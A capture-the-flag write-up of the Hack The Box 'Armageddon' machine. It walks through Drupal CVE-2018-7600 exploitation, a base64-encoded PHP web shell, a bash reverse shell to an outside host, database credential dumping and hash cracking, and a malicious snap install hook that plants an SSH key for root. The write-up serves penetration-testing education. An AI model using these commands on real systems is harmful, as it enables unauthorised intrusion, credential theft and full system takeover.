


# Armageddon

## Machine Info


## Recon

### port

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 3.16 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Linux 3.12 (93%), Linux 3.13 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

### drupal site

- [droopescan](https://github.com/SamJoan/droopescan)

```console
└─╼$ droopescan scan drupal -u http://10.10.10.233 -e a
[+] Plugins found:
    profile http://10.10.10.233/modules/profile/
    php http://10.10.10.233/modules/php/
    image http://10.10.10.233/modules/image/

[+] Themes found:
    seven http://10.10.10.233/themes/seven/
    garland http://10.10.10.233/themes/garland/

[+] Possible version(s):
    7.56

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.233/CHANGELOG.txt

[+] Scan finished (0:01:27.108506 elapsed)
```

- `/robots.txt`

```console
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

- `/INSTALL.txt`



## Foothold

### Drupal RCE

**Reference**: [CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

**POC**:

```console
└─╼$ python drupa7-CVE-2018-7600.py -c 'id' http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-DZmfzuPZ7OaYgoyoNj3vayZF3Qvvs1MV4jCq2MzlaWM
[*] Triggering exploit to execute: id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

But, payload `ping -c 1 <ip>` is failed as well as no nc, bash rev shell, python rev shell and so on.

**Exploit**:

Create a local php file in Drupal site.

```console
└─╼$ python drupa7-CVE-2018-7600.py -c 'echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K | base64 -d | tee a.php' http://10.10.10.233

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-OvI3lrG5zLsLlS4I9UGNw5JeupuA85mvB8KEV3A3TLo
[*] Triggering exploit to execute: echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K | base64 -d | tee a.php
<?php system($_GET["cmd"]);?>
```

Trigger the php file with command injection:

- POC: `curl -G --data-urlencode "cmd=id" http://10.10.10.233/a.php`
- EXP: `curl -G --data-urlencode "cmd=bash -i >&/dev/tcp/10.10.14.14/443 0>&1" http://10.10.10.233/a.php`
  - port 443, 4444 is ok
  - port 1234, 4321, 5000 ... is failed

```console
└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.233] 55554
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
bash-4.2$ uname -a
uname -a
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### Another Usage: Metasploit



## Privilege Escalation

### apache -> brucetherealadmin

Check Drupal CMS's config:

```console
bash-4.2$ cat /var/www/html/sites/default/settings.php
...
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...
```

Dump mysql database (drupal.users) and check user info:

- `mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal > dump_table.sql`
- `mysqldump -u drupaluser -pCQHEy@9M*m23gBVj drupal users > users.sql`

```console
bash-4.2$ cat users.sql | grep brucetherealadmin
INSERT INTO `users` VALUES (0,'','','','','',NULL,0,0,0,0,NULL,'',0,'',NULL),(1,'brucetherealadmin','$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt','admin@armageddon.eu','','','filtered_html',1606998756,1607077194,1607076276,1,'Europe/London','',0,'admin@armageddon.eu','a:1:{s:7:\"overlay\";i:1;}');
```

```console
└─╼$ hashcat -m 7900 -a 0 hash /usr/share/wordlists/rockyou.txt --show
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
```

Login using ssh:

```console
└─╼$ ssh brucetherealadmin@$IP
The authenticity of host '10.10.10.233 (10.10.10.233)' can't be established.
ED25519 key fingerprint is SHA256:rMsnEyZLB6x3S3t/2SFrEG1MnMxicQ0sVs9pFhjchIQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.233' (ED25519) to the list of known hosts.
brucetherealadmin@10.10.10.233's password:
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ id
uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[brucetherealadmin@armageddon ~]$ uname -a
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### brucetherealadmin -> root

- enum sudo, [sudo snap exploit](https://gtfobins.github.io/gtfobins/snap/#sudo)

```console
[brucetherealadmin@armageddon shm]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid,
    always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

- create malicious snap with command injection

```console
└─╼$ cat create_rce_snap.sh
#!/bin/bash

COMMAND='echo "[!] cp pub into authorized_keys";mkdir -p /root/.ssh;echo "ssh-rsa AAAAB...CkbPE= qwe@kali" >> /root/.ssh/authorized_keys;echo "[!] finish"'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

└─╼$ ./create_rce_snap.sh
Created package {:path=>"xxxx_1.0_all.snap"}

└─╼$ cp /tmp/tmp.EvImhyNebi/xxxx_1.0_all.snap .
```

- exploit on the target machine

```console
[brucetherealadmin@armageddon ~]$ curl http://10.10.14.14/xxxx_1.0_all.snap -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  48360      0 --:--:-- --:--:-- --:--:-- 48761
[brucetherealadmin@armageddon ~]$ sudo /usr/bin/snap install xxxx_1.0_all.snap --dangerous --devmode
error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install":
-----
[!] cp pub into authorized_keys
[!] finish
-----)
```

```console
└─╼$ ssh root@$IP
The authenticity of host '10.10.10.233 (10.10.10.233)' can't be established.
ED25519 key fingerprint is SHA256:rMsnEyZLB6x3S3t/2SFrEG1MnMxicQ0sVs9pFhjchIQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.233' (ED25519) to the list of known hosts.
Last failed login: Wed Jan 31 08:26:51 GMT 2024 from 10.10.14.14 on ssh:notty
There were 4 failed login attempts since the last successful login.
Last login: Tue Mar 23 12:58:10 2021
[root@armageddon ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@armageddon ~]# uname -a
Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Another method to create malicious snap package (using `snapcraft`), references (only snap creation part, not vuln part):

- [initstring/dirty_sock: Linux privilege escalation exploit via snapd (CVE-2019-7304) (github.com)](https://github.com/initstring/dirty_sock?tab=readme-ov-file)
- [Linux Privilege Escalation via snapd (dirty_sock exploit) :: initblog.com](https://initblog.com/2019/dirty-sock/)

## Exploit Chain

port scan -> drupal cms scan -> version with rce vuln -> revshell -> apache shell -> drupal settings enum with mysql credential -> dump users table with brucetherealadmin password's hash value -> crack to get brucetherealadmin shell -> enum sudo -> sudo snap exploit to copy local pub key into root's authorized_keys -> root shell
